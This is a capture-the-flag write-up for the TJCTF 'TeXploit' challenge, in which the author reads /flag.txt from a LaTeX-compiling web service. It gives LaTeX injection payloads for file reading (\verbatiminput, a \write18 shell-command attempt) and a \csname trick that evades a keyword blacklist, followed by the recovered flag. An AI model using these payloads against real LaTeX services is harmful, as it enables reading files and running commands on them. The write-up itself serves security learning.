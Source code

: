 ## TeXploit

---

### Challenge

I made a LaTex compiler that can generate pdfs. It even prints the log file if there is an error. The flag is located in `/flag.txt`

[https://instancer.tjctf.org/challenge/texploit](https://instancer.tjctf.org/challenge/texploit)

---

### Solution

In the Latex compiler, I tried giving different payloads. If I were to give just hello, it would show me a pdf with hello printed. But I want payloads that can print `flag.txt`

```
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/flag.txt}
\end{document}
```
![image](https://github.com/user-attachments/assets/1c24b613-9bd7-4a2b-9047-ca545d8ab8c1)

While trying multiple payloads like this, I found that `input`, `include`, `repeat` etc are blacklisted keywords.

So I tried crafting my payload without them. For example: `\immediate\write18{cat /flag.txt}`. Here `\write18` is Latex's way of executing shell commands but I encountered an error.

![image](https://github.com/user-attachments/assets/8c49c343-50bf-48e0-9e71-999a331a8cc3)

Next, I tried a payloads that obfuscates the input so that it won't be filtered.

```
\def\x{i}
\def\y{nput}
\csname \x\y\endcsname{/flag.txt}
```

![image](https://github.com/user-attachments/assets/00aefa4d-6691-41f8-9ad7-1034a4d5e298)

In this output, I can see parts of what look like the flag. When I put it together, it says `tjctf{f1l3_i0_1n_l4t3x?}` which is the right flag.

---

### Flag

`tjctf{f1l3_i0_1n_l4t3x?}`
